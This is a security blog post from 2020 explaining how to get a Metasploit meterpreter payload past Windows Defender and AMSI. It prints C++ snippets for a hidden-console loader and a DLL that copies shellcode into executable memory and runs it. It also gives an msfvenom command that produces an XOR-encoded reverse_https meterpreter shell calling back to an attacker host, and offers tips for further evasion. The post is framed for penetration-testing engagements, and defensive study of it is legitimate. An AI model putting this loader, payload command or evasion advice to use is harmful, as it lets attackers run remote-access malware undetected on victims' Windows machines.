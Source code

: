 Windows Defender Bypassing For Meterpreter
27.01.2020 by HackerHouse

If you have done any kind of hacking against Windows enterprise environments lately, you will have noticed that the detection routines of Microsoft Defender have been improving significantly. Many common anti-malware scan interface (AMSI) bypass tricks are now trivially detected and it can be quite difficult for an inexperienced hacker to get a payload running. I recently had to bypass Windows Defender running on a Windows 10 Enterprise host and this blog post documents the result, a rather simple way of evading Defender. It used to be the case that generating a “meterpreter” payload using “msfvenom” as PowerShell or similar scripted output would permit you to load your code directly onto a Windows host with little effort, or using a PE with strong encoders then injected with another binary using Shellter. However, that has now changed with AMSI being able to detect most garden variety scripted payloads and msfvenom generated binaries mostly being detected by Defender. Windows Defender isn’t entirely fool proof however and it takes little work to bypass the detection routines through use of native code loaded from a DLL. We created a shellcode loading harness Peony[0] that implements the bypass described here and can be used with x86 and x64 meterpreter payloads rather generically to defeat Windows Defender. The project creates a console application Loader.exe which has one main purpose, to load Payload.dll into memory and hide the application’s console Window. This application then quietly sits in the background, invisible to the user and runs in an infinite loop allowing our Payload routines to complete.

    HMODULE PayloadDLL;
    PayloadDLL = LoadLibrary(L"Payload.dll");

The Payload.dll is responsible for taking a “msfvenom” generated payload, mapping it into read, write and executable memory then transferring execution flow to the position independent shellcode to load meterpreter onto the host. It does this by first creating a thread inside the DllMain function which is called when the DLL is loaded into memory by the Loader. Once inside our thread we map a page of memory the same size as our shellcode. We copy our shellcode into this newly mapped memory and execute it directly as a function. The code is similar to the following.

    pShellcode = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(pShellcode, shellcode, sizeof(shellcode)-1);
    int (*func)();
    func = (int (*)()) pShellcode;
    (*func)();

If you generate a Payload.dll containing a trivial to detect Windows shellcode (such as an entirely unencoded or unencrypted payload) then Windows Defender will certainly identify your DLL as malicious and quarantine the file. As such you must still encode your shellcode that will be loaded from the DLL to ensure that it bypasses signature based detection. Metasploit version 5 now supports generating encrypted payloads using msfvenom, supplying the “–encrypt” option allows to create a payload encrypted with RC4, AES256 or encoded output using Base64 or XOR. It transpires that simply XOR encoding your payload routine is sufficient and using the built-in “x86/xor_dynamic” encoder is all that is needed to generate a signature-free DLL. Despite Windows Defender offering significant improved detection lately for common routines and generated binaries, it is still trivial to bypass and offers little protection against meterpreter. You can use our Peony solution which contains both a Loader project and Payload project for compiling a generic meterpreter bypassing payload for use on engagements, however it is likely that this will become detected in the near future and as such a variation of this should be adapted for your own uses. We highly recommend making use of Windows CryptoAPI and using an AES256 encrypted payload to further deter detection of shellcode within a payload.dll, left as an exercise to the reader, however XOR seems wholly sufficient at present. As an example the following msfvenom command can be used to generate a payload and then replace the shellcode variable in Payload.cpp with your own payload.c buf entry. You will need Visual Studio to compile the project files.

    msfvenom -p windows/meterpreter/reverse_https LHOST=172.16.10.2 LPORT=443 --encoder x86/xor_dynamic -f c -o payload.c

Windows Defender will often send suspicious samples to the cloud for detection and any generated files will have a limited shelf-life especially if you use meterpreter’s advanced features, however simply adjusting the technique to add better encryption or using timers to force timeouts can help prevent this (see commented code for examples). Ultimately, any payload generated using the sample project here should not expect to last long but can be used as a starting point for your own methods of loading meterpreter onto a Windows Defender protected host.
